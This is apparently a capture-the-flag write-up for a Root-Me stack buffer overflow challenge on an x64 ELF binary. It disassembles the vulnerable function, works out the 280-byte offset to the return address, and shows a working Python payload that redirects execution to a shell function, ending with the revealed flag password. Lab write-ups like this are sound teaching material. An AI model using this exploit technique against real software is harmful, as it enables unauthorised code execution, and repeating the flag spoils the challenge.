 # ELF x64 - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-x64-Stack-buffer-overflow-basic
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 Yes 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2223
SSH access 	ssh -p 2223 app-systeme-ch35@challenge02.root-me.org   
Username	app-systeme-ch35
Password	app-systeme-ch35
```
Let's reverse the assembly abit:
```asm
   0x0000000000400628 <+0>:	push   rbp
   0x0000000000400629 <+1>:	mov    rbp,rsp
   0x000000000040062c <+4>:	sub    rsp,0x120
   0x0000000000400633 <+11>:	mov    DWORD PTR [rbp-0x114],edi
   0x0000000000400639 <+17>:	mov    QWORD PTR [rbp-0x120],rsi
   0x0000000000400640 <+24>:	lea    rax,[rbp-0x110]
   0x0000000000400647 <+31>:	mov    rsi,rax
   0x000000000040064a <+34>:	lea    rdi,[rip+0xd0]        # 0x400721
   0x0000000000400651 <+41>:	mov    eax,0x0
   0x0000000000400656 <+46>:	call   0x4004f0 <__isoc99_scanf@plt>
   0x000000000040065b <+51>:	lea    rax,[rbp-0x110]
   0x0000000000400662 <+58>:	mov    rdi,rax
   0x0000000000400665 <+61>:	call   0x4004c0 <strlen@plt>
   0x000000000040066a <+66>:	mov    DWORD PTR [rbp-0x4],eax
   0x000000000040066d <+69>:	lea    rax,[rbp-0x110]
   0x0000000000400674 <+76>:	mov    rsi,rax
   0x0000000000400677 <+79>:	lea    rdi,[rip+0xa6]        # 0x400724
   0x000000000040067e <+86>:	mov    eax,0x0
   0x0000000000400683 <+91>:	call   0x4004d0 <printf@plt>
   0x0000000000400688 <+96>:	mov    eax,0x0
   0x000000000040068d <+101>:	leave  
   0x000000000040068e <+102>:	ret  
```
Before the **scanf** call, there are some allocations in the stack. First, the program will allocate 288 bytes for the function.<br>
Next, it will allocate 272 bytes for the buffer (which according to the source code should only take 256 bytes).<br>
So, basically the stack should look like the following figure, just before calling the **scanf** function:

```
                        +----------------+
                        | return address |
                        +----------------+
                        |   alignment    |
                        +----------------+
                        |                |
                        |  272 bytes of  |
                        |   the buffer   |
                        |                |
                        +----------------+
```

So, basically one should write 280 bytes and then write the wanted return address (in this case, the address to **callMeMaybe**).<br>
Let's verify it:
```sh
app-systeme-ch35@challenge03:~$ python -c "print 'A'*280 + 'DDDD'" | ./ch35 
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
Well it looks like the return address was changed (according to the segmentation fault).<br>
If we'll change the "DDDD" to the address of the **callMeMaybe** function we should get our shell:
```sh
app-systeme-ch35@challenge03:~$ cat <(python -c 'print "A"*280+"\xe7\x05\x40"+"\x00"*5') - | ./ch35
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
id
uid=1135(app-systeme-ch35) gid=1135(app-systeme-ch35) euid=1235(app-systeme-ch35-cracked) groups=1135(app-systeme-ch35),100(users)
cat .passwd
B4sicBufferOverflowExploitation
```


